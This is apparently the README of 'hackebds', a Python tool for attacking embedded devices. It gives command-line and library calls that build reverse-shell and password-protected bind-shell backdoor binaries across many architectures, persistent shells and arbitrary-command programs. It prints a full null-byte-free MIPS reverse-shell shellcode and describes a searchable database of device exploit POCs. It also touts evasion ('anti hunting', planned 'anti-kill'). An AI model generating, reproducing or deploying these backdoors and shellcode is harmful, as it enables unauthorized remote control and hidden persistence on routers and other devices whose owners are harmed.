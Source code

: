hackebds
========

| |image1|\ |image2|
| |image3|

🔗\ `中文readme <https://github.com/doudoudedi/hackEmbedded/blob/main/readme_cn.md>`__

foreword
--------

   In the process of penetration and vulnerability mining of embedded
   devices, many problems have been encountered. One is that some
   devices do not have telnetd or ssh services to obtain an interactive
   shell，Some devices are protected by firewall and cannot be connected
   to it in the forward direction Reverse_shell is required, and the
   other is that memory corruption vulnerabilities such as stack
   overflow are usually Null bytes are truncated, so it is more
   troublesome to construct reverse_shellcode, so this tool was
   developed to exploit the vulnerability. This tool is developed based
   on the PWN module and currently uses the python2 language，\ **Has
   been updated to python3**

fuction
-------

This tool is embedded in the security test of the device. There are two
main functions:

1. Generate **backdoor programs** (only ELF) of various architectures.
   The backdoor program is packaged in shellless pure shellcode and is
   smal，Pure static backdoor .\ **Armv5, Armv7, Armv8, mipsel,
   mips，mips64，mipsel64，powerpc, powerpc64，sparc,sparc64,mipsn32 are
   now supported, and they are still being updated** (PS:bash support is
   added to the reverse shell after version 0.3.1). If the backdoor of
   the reverse shell is generated with the - power parameter, the
   reverse shell will continue to be continuously generate on the target
   machine)

2. Generate **reverse_shell shellcode** (only linux) of various
   architectures during the exploit process, and no null bytes, which
   facilitates the exploitation of memory corruption vulnerabilities on
   embedded devices. **Armv5, Armv7, Armv8, mipsel, mips, mips64,
   mipsel64, powerpc, powerpc64,sparc are now supported, and they are
   still being updated**

3. Generate bind of various architectures bind_Shell(only ELF) file,
   -power can persistent bind_shell（ If you need to use -power
   parameter, you can specify the bash shell, and please do not hang the
   process in the background to prevent data redirection errors）

4. Sort out the exploitable vulnerability POC or EXP of the embedded
   device, and search and output the basic information and POC of the
   device model in use: Function of equipment, Architecture of
   equipment,Device CPU manufacturer,Device CPU model,WEB service
   program of the device, and so on

5. Support command line generation backdoor and shell code, Strong anti
   hunting ability,characterized by light, small, efficient and fast

install
-------

Just use pip to install, if the installation fails, try to use sudo to
install

.. code:: 

   Use pip install:
   sudo pip install -U hackebds

   local install:
   git clone https://github.com/doudoudedi/hackEmbedded
   sudo ./start.sh

（If you want this tool to run on a MacOS system, you need to include
python/bin in the bashrc environment variable）

.. code:: 

   echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc

.. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png
   :alt: 

.. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png
   :alt: 

Instructions for use
~~~~~~~~~~~~~~~~~~~~

.. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png
   :alt: 

| Please install the corresponding binutils environment before use
| expample:

.. code:: 

   Ubuntu（debian）:
     apt search binutils | grep arm（You can replace it here， if not please execute "apt update" first）
     apt install binutils-arm-linux-gnueabi/hirsute
    MacOS:
    	 https://github.com/Gallopsled/pwntools-binutils
    	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb

1. Use the command line to generate the backdoor file name, shellcode,
   bindshell, etc

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode
      or
      hackebds -lhost 127.0.0.1 -lport 9999 -arch mipsel -res reverse_shellcode

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
      or
      hackebds -lhost 127.0.0.1 -lport 8081 -arch armelv7 -res reverse_shell_file

   By default, the reverse shell backdoor is created using sh. If bash
   is required (PS: here, the bash command needs to exist on the target
   device)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash
      or 
      hackebds -lhost 127.0.0.1 -lport 8081 -arch armelv7 -res reverse_shell_file -shell bash

   If you need to generate a backdoor and constantly create reverse
   shells (the CPU occupied by the test is about% 8)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power
      or
      hackebds -lhost 127.0.0.1 -lport 8081 -arch armelv7 -res reverse_shell_file -shell bash -power

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png
      :alt: 

   .. code:: 

      hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell

   Create bind_shell to monitor the shell as sh, -power fuction can give
   -shell bash

   .. code:: 

      hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231 -power

   The bind_shell process will not stop after being disconnected, and
   supports repeated connections (currently this function is not
   supported by powerpc and sparc series)

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png
      :alt: 

   Generate cmd_file function is updated. Only need to specify the - cmd
   parameter to generate programs for various architectures to execute
   corresponding commands , -envp Environment variables are separated by
   commas

   .. code:: 

      hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153459125.png
      :alt: 

   | The list relationship between the output model and the architecture
     is added to the function of generating the back door of the
     specified model to facilitate the user to observe and modify. The
     output information will be enhanced after version 0.3.5, such as
     (100+ device information, POC80+or so):
   | Function of equipment
   | Architecture of equipment
   | Device CPU manufacturer
   | Device CPU model
   | WEB service program of the device
   | Device default SSH service support
   | Can monitoring be realized
   | Device default telnet user password
   | Device sdk support
   | Openwrt support for devices
   | Whether the device is vulnerable
   | POC output

   .. code:: 

      hackebds -l

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213151548871.png
      :alt: 

   Added retrieval of device information, using - s to search for the -
   model parameter. This search is fuzzy and case insensitive. Try to
   use lowercase when inputting, and finally output the device
   information with the highest matching degree with the input（The
   introduction of EXP and POC in version 0.3.7)

   If the following error occurs

   hackebds: error: argument -model: expected one argument

   Please set all parameters to lowercase or lowercase mixed with
   uppercase. I guess it is due to the conflict between python and bash
   in the interpretation of uppercase and lowercase letters

   .. code:: 

      hackebds -model ex200 -s

   If the following warning occurs during command output

   | /usr/local/lib/python3.8/dist-packages/fuzzywuzzy/fuzz.py:11:
     UserWarning: Using slow pure-python SequenceMatcher. Install
     python-Levenshtein to remove this warning
   |  warnings.warn('Using slow pure-python SequenceMatcher. Install
     python-Levenshtein to remove this warning')

   If the following warning occurs during command output, you can use
   the following command to install python-levenshtein. After
   installation, the command retrieval speed can be increased by about 4
   times

   .. code:: 

      pip install python-levenshtein

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213105520663-20230213151846373.png
      :alt: 

   The POC corresponding to the generated device can use - p or -- poc,
   which may be python scripts, commands, etc., and may need to be
   modified by yourself

   .. code:: 

      hackebds -model ex200 -p

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213105925356.png
      :alt: 

   Added search for CVE

   .. code:: 

      hackebds -CVE CVE-2019-17621

   .. image:: https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/img/image-20230530172408297.png
      :alt: 

   If a vulnerability is found in the test and you want to add the basic
   information of a new device to this tool, you can use the - add
   function for POC files or "/tmp/model_tree_info/" The format of the
   directory directory of the new device under the info/directory can
   refer to the standard generated format. After the insertion, you can
   use the tool search and POC generation functions，Finally, if you
   need to fill in the POC file information, you can put it in
   "/tmp/model_tree_info/xxx/POC" directory will be read if retrieved
   again

   .. code:: 

      hackebds -add

   .. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213111024854.png
      :alt: 

   If there are device information errors, POC errors, or you want to
   integrate your collected device information with vulnerabilities,
   please contact me doudoudedi233@gmail.com

2. Generate backdoor programs of various architectures, encapsulate pure
   shellcode, and successfully connect to the shell

.. code:: 

   >>> from hackebds import *
   >>> mipsel_backdoor(reverse_ip,reverse_port)
   >>> mips_backdoor(reverse_ip,reverse_port)
   >>> aarch64_backdoor(reverse_ip,reverse_port)
   >>> armelv5_backdoor(reverse_ip,reverse_port)
   >>> armelv7_backdoor(reverse_ip,reverse_port)
   >>> armebv5_backdoor(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_backdoor(reverse_ip,reverse_port)
   >>> mips64el_backdoor(reverse_ip,reverse_port)
   >>> x86el_backdoor(reverse_ip,reverse_port)
   >>> x64el_backdoor(reverse_ip, reverse_port)
   >>> sparc32.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> sparc64.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> powerpc_info.powerpc_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpcle_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64le_backdoor(reverse_ip, reverse_port)
   >>> x86_bind_shell(listen_port, passwd)
   >>> x64_bind_shell(listen_port, passwd)
   >>> armelv7_bind_shell(listen_port, passwd)
   >>> aarch64_ bind_ shell(listen_port, passwd)
   >>> mips_bind_shell(listen_port, passwd)
   >>> mipsel_bind_shell(listen_port, passwd)
   >>> sparc32.sparc_bind_shell(listen_port, passwd)
   >>> powerpc_info.powerpc_bind_shell(listen_port, passwd)

（Note that the maximum password length is 4 characters for
x86（32bits） and 8 characters for x64（64bits））

.. code:: 

   >>> mipsel_backdoor("127.0.0.1",5566)
   [+] reverse_ip is: 127.0.0.1
   [+] reverse_port is: 5566
   [*] waiting 3s
   [+] mipsel_backdoor is ok in current path ./
   >>>

.. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png
   :alt: 

.. code:: 

   >>> from hackebds import *
   >>> x86_bind_shell(4466,"doud")
   [+] bind port is set to 4466
   [+] passwd is set to 'doud'
   0x0000000064756f64
   [*] waiting 3s
   [+] x86_bind_shell is ok in current path ./
   >>>

.. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png
   :alt: 

Then connect to the port bound to the device (password exists)

.. image:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png
   :alt: 

1. Generates the use-back shellcode (no free) null bytes corresponding
   to various architectures

.. code:: 

   >>> from hackebds import *
   >>> mipsel_reverse_sl(reverse_ip,reverse_port)
   >>> mips_reverse_sl(reverse_ip,reverse_port)
   >>> aarch64_reverse_sl(reverse_ip,reverse_port)
   >>> armelv5_reverse_sl(reverse_ip,reverse_port)
   >>> armelv7_reverse_sl(reverse_ip,reverse_port)
   >>> armebv5_reverse_sl(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_reverse_sl(reverse_ip,reverse_port)
   >>> mips64el_reverse_sl(reverse_ip,reverse_port)
   >>> android_aarch64_backdoor(reverse_ip,reverse_port)
   >>> x86el_reverse_sl(reverse_ip,reverse_port)
   >>> x64el_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppcle_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64le_reverse_sl(reverse_ip,reverse_port)

example:

.. code:: 

   >>> from hackebds import *
   >>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
   [+] No NULL byte shellcode for hex(len is 264):
   \xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01

chips and architectures
-----------------------

Tests can leverage chips and architectures

| Mips:
| MIPS 74kc V4.12 big endian,
| MIPS 24kc V5.0 little endian (Ralink SoC) like MediaTek MT7621
| Ingenic Xburst V0.0 FPU V0.0 little endian

| Armv7:
| Allwinner(全志)V3s

| Armv8:
| Qualcomm Snapdragon 660
| BCM2711

Powerpc, sparc: qemu

🍺enjoy hacking
---------------

updating
--------

2022.4.19 Added support for aarch64 null-byte reverse_shellcode

2022.4.30 Reduced amount of code using functions and support python3

2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and
mipsel_reverse_sl were not enabled, added mips64_backdoor,
mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl
generation

2022.5.21 0.0.9 version changed the generation method of armel V5
backdoor and added the specified generation of riscv-v64 backdoor

2022.6.27 0.1.0 Added Android backdoor generation

2022.10.26 0.1.5 Fixed some problems and added some automatic generation
functions of bindshell specified port passwords

2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

2022.11.1 Removed the generation sleep time of shellcode, and added
mips\_ bind\_ Shell, reverse of x86 and x64 small end\_ shell\_
Backdoor, the mips that are expected to be interrupted by mips\_ bind\_
Shell, which solves the error of password logic processing in the
bindshell in mips

|  2022.11.2 Joined aarch64\_ bind\_ shell
|  2022.11.2 Support command line generation backdoor and shell code,
  characterized by light, small, efficient and fast

2022.12.6 0.2.8 Add sparc_bind_shell && powerpc_bind_shell ，fix some
bug

2022.12.26 0.2.9 Added the program function of generating specified
commands, and added executable permissions after generating files

2023.1.6 0.3.0 repaired cmd\_ The file generates the function bug of
executing the specified command program, and adds the model ->arch list,
Android bind\_ Shell file

2023.1.16 0.3.1 Added bash reverse\_ Shell. At present, this tool only
supports sh and bash. The - l function is added to list the relationship
between device model and architecture, and the - power function is added
to generate a more powerful reverse\_ shell\_ File, which realizes the
continuous creation of reverse shell links without killing the program.
Currently, the - power function only supports reverse\_ shell\_ file

2023.1.29 0.3.3 -The power function adds support for bind_shell,
bind_shell is more stable, and fixes some bugs in the execution of
bind_shell and cmd_file files of the aarch64 architecture

2023.3.7 0.3.6 Added support for the mipsn32 architecture (this
architecture may be encountered in devices such as zyxel firewalls)

2023.5.30 add the retrieval of CVE and output the content of EXP and POC
files in the device information

2023.11.11 Fixed the issue of armv5 series backdoors not being able to
generate shells in Vitogate_300 The rear doors are operating
normally，Simplified reverse\_ Command parameters such as IP can be used
with - lhost and - lport, Added some device vulnerabilities

Problems to be solved
---------------------

Support the backend of the loongarch64 architecture and the generation
of the bind_shell program (binutils has been integrated into the
mainline, but cannot be installed directly through apt)

Improve the generation of power_bind_shell backdoors of powerpc and
sparc series

Add anti-kill function for backdoor programs

vul fix
-------

CVE-2021-29921 The tool is a complete client program. This vulnerability
will not affect the use of the tool. If you want to fix it, please run
the tool in python 3.9 and above

CVE-2022-40023 DOS_attack pip install -U mako (The vulnerability does
not apply to this tool)

CVE-2021-20270 DOS_attack pip install -U pygments (The vulnerability
does not apply to this tool)

0.2.5 Version Repair directory traversal in the specified model

.. |image1| image:: https://img.shields.io/pypi/wheel/hackebds
.. |image2| image:: https://img.shields.io/pypi/pyversions/pwntools
.. |image3| image:: https://static.pepy.tech/badge/hackebds
   :target: https://pepy.tech/project/hackebds


